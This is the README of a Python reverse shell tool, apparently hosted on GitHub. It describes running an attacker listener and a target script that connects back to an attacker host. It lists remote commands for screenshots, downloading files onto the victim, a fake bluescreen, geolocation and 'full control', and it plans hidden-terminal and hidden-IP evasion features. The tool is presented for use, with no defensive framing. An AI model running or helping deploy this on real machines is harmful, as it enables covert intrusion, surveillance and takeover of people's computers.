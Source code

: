 # Ultimate Reverse Shell #

Reverse shell implementation using Python.
<br/><br/>

<p align="center">
  <img src="./screenshot/reverse_shell_01.gif">
</p>


## Installation ##
**NOTE**: Python 3.6 or higher is required.

```bash
# clone the repo
$ git clone https://github.com/jcs090218/ult_reverse_shell

# change the working directory to reverse shell
$ cd ult_reverse_shell

# install python3 and python3-pip if not exist

# install the requirements
$ pip3 install -r requirements.txt
```

## Usage ##
### 1. Listen for target ###
On attacker machine, run the `attacker.py` script.
```
python3 attacker.py [port]
```

### 2. Execute reverse shell ###
On target machine, run the `target.py` script.
```
python3 target.py [host] [port]
```


## Commands ##
```sh
# Halt
!dc            Disconnect the target from this host, target will start reconnection process.
!shutdown      Shutdown both `attacher` and `target`.

# Listen
!screenshot    Screenshot the target machine.

# Cheat
!bluescreen    Fake bluescreen. (Windows Only)
!dl            Download file by URL onto the target machine.

# Information
!wan_ip        Get the WAN IP.
!lan_ip        Get the LAN IP.
!geo_info      Get the geolocation on the target device.
```


## Features ##
### Implemented ###
* Auto reconnection
* Downloader (Download file to target machine)
* Screenshot
* Full control on the target machine.

### Not Implemented ###
* Packet encoder/decoder.


## TODOs ##
* Bluescreen (Fake)
* Hidden IP
* Hidden terminal
* Multi-target listening
